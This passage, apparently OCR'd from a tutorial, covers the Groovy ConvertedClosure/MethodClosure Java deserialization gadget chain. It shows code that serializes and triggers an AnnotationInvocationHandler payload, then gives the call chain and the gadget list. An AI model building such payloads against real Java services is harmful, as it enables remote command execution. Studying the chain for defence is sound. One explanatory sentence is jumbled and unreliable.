 ```java
        Map map = (Map) Proxy.newProxyInstance(ConvertedClosure.class.getClassLoader(), new Class[]{Map.class}, convertedClosure);
        
        // Initialize AnnotationInvocationHandler with dynamic proxy
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map);

        // Generate exp
        String exp = serialize(invocationHandler);
        System.out.println(exp);
        // Trigger exp
        unserialize(exp);
    }
}
```

<div align=center><img src="./images/5.png"></div>

## Call chain

```java
AnnotationInvocationHandler.readObject()
    Map.entrySet() (Proxy)
        ConversionHandler.invoke()
            ConvertedClosure.invokeCustom()
		        MethodClosure.call()
                    ProcessGroovyMethods.execute()
```

## Summarize
### Usage Instructions
When deserializing the `AnnotationInvocationHandler`, the `entrySet` object in `memberValues` is called. This object is `ConvertedClosure`, and this object is actually a proxy for the `MethodClosure` object. It defines that when calling the `entrySet` method, the `invoke` method will be called to call `MethodCl.
The `call` method of osure` triggers the `execute` method of type `String` in Groovy` to execute the command.

### Gadget
 - kick-off gadget: sun.reflect.annotation.AnnotationInvocationHandler#readObject
 - sink gadget: org.codehaus.groovy.runtime.MethodClosure#doCall
 - chain gadget: org.codehaus.groovy.runtime.ConvertedClosure#invokeCustom
